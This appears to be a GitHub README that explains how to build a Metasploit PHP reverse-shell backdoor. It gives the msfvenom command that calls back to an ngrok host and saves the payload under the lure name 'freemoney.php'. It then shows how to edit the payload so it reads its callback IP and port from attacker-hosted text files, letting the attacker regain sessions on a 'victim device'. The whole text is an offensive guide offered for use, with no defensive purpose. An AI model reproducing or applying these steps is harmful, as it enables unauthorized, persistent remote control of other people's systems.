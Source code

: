 # <img src="https://img.icons8.com/cute-clipart/48/000000/double-tick.png"/> METASPLOIT PHP BACKDOOR

<a href="https://github.com/isuruwa"><img title="addon" src="https://img.shields.io/badge/isuruwa-MSFPHPBACKDOOR-brightgreen?style=for-the-badge&logo=appveyor"></a>
<br>
  
![backdoor](https://user-images.githubusercontent.com/72663288/124308859-80a07780-db87-11eb-9a36-7095feb3102f.jpg)

<p align="center">
<img align="center" alt="visitors" src="https://visitor-badge.glitch.me/badge?page_id=isuruwaphpbackdoor" />
<br>
<a href="https://github.com/isuruwa"><img title="addon" src="https://img.shields.io/badge/isuruwa-MSFPHPBACKDOOR-blueviolet?style=for-the-badge&logo=appveyor"></a>
<br>
<a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2Fisuruwa&count_bg=%2379C83D&title_bg=%23555555&icon=&icon_color=%23E7E7E7&title=hits&edge_flat=false"/></a>
</p>


# <img src="https://img.icons8.com/cute-clipart/48/000000/double-tick.png"/> create your php payload with  Metasploit : <img src="https://img.icons8.com/emoji/48/000000/man-technologyst.png"/>

ex - msfvenom -p php/meterpreter/reverse_tcp lhost=0.tcp.ngrok.io lport=ngrokport R> freemoney.php 

After creating payload php , open it in a editor .
Then you will find something like 

 * Default metasploit payload 'php/meterpreter/reverse_tcp'
 * $ip = 0.tcp.ngrok.io;
 * $port = xxxx;

# <img src="https://img.icons8.com/cute-clipart/48/000000/double-tick.png"/> Replace these above $ip , $port lines with these . : <img src="https://img.icons8.com/emoji/48/000000/man-technologyst.png"/>

$ip = file_get_contents("uploadedurl/ip.txt");

$port = file_get_contents("uploadedurl/port.txt");

# <img src="https://img.icons8.com/cute-clipart/48/000000/double-tick.png"/> Your Text Files Must be contain : <img src="https://img.icons8.com/emoji/48/000000/man-technologyst.png"/>

* `ip.txt (contains "0.tcp.ngrok.io")`
* `port.txt (contains "port")`

and upload them to a hosting or online storage .

# <img src="https://img.icons8.com/cute-clipart/48/000000/double-tick.png"/> Why we use file_get_contents? : <img src="https://img.icons8.com/emoji/48/000000/man-technologyst.png"/>

Think , we installed our payload in victim device but it is not listening . That may be a port forwarding or a other problem . Now we can't change our port or ip to start a new listening in same payload .

# <img src="https://img.icons8.com/cute-clipart/48/000000/double-tick.png"/> Here is the Solution : <img src="https://img.icons8.com/emoji/48/000000/man-technologyst.png"/>

With the file_get_contents it reads the new contents of the file we uploaded . so only thing we need to do is changing the host & port. Then payload will start relistening according to your new data .Then we can get our session back what ever the problem . 

  
<br>

<img src="https://img.shields.io/badge/isuruwa-Thank%20You-brightgreen?style=social&logo=appveyor"/>

<img src="https://img.shields.io/badge/isuruwa-STAY%20SAFE-brightgreen?style=flat-square&logo=appveyor"/>

<img src="https://img.shields.io/badge/isuruwa-EXPECT%20US-red?style=for-the-badge&logo=appveyor"/>

